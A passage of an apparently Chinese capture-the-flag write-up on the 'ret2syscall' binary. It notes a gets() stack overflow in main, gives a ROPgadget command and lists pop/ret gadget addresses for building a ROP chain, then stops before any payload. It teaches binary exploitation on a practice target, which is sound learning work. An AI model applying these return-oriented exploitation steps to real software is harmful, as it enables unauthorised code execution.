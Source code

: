 可以看到main函数有一个gets()所以可以进行栈溢出

所以思路也就是有了，可以利用ROP构造出

```plain
ROPgadget --binary ret2syscall --only('pop|ret')
```

这里展示一部分获得的gadget

```plain
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809d7b2 : pop ds ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d5 : pop ebp ; pop esi ; pop edi ; ret
0x0804838e : pop ebp ; ret
0x080a9a45 : pop ebp ; ret 0x10
0x08096a29 : pop ebp ; ret 0x14
0x08070d76 : pop ebp ; ret 0xc
0x0804854a : pop ebp ; ret 4
0x08049c00 : pop ebp ; ret 8
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0804838d : pop edi ; pop ebp ; ret
0x080a9a44 : pop edi ; pop ebp ; ret 0x10
0x08096a28 : pop edi ; pop ebp ; ret 0x14
0x08070d75 : pop edi ; pop ebp ; ret 0xc
0x08048549 : pop edi ; pop ebp ; ret 4
0x08049bff : pop edi ; pop ebp ; ret 8
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0805c508 : pop edi ; pop esi ; ret
0x0804846f : pop edi ; ret
0x08049a1b : pop edi ; ret 4
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0806eb6a : pop edx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080671ea : pop es ; pop edi ; ret
0x0806742a : pop es ; ret
0x08092259 : pop esi ; pop ebp ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x0804838c : pop esi ; pop edi ; pop ebp ; ret
0x080a9a43 : pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a27 : pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d74 : pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048548 : pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfe : pop esi ; pop edi ; pop ebp ; ret 8
```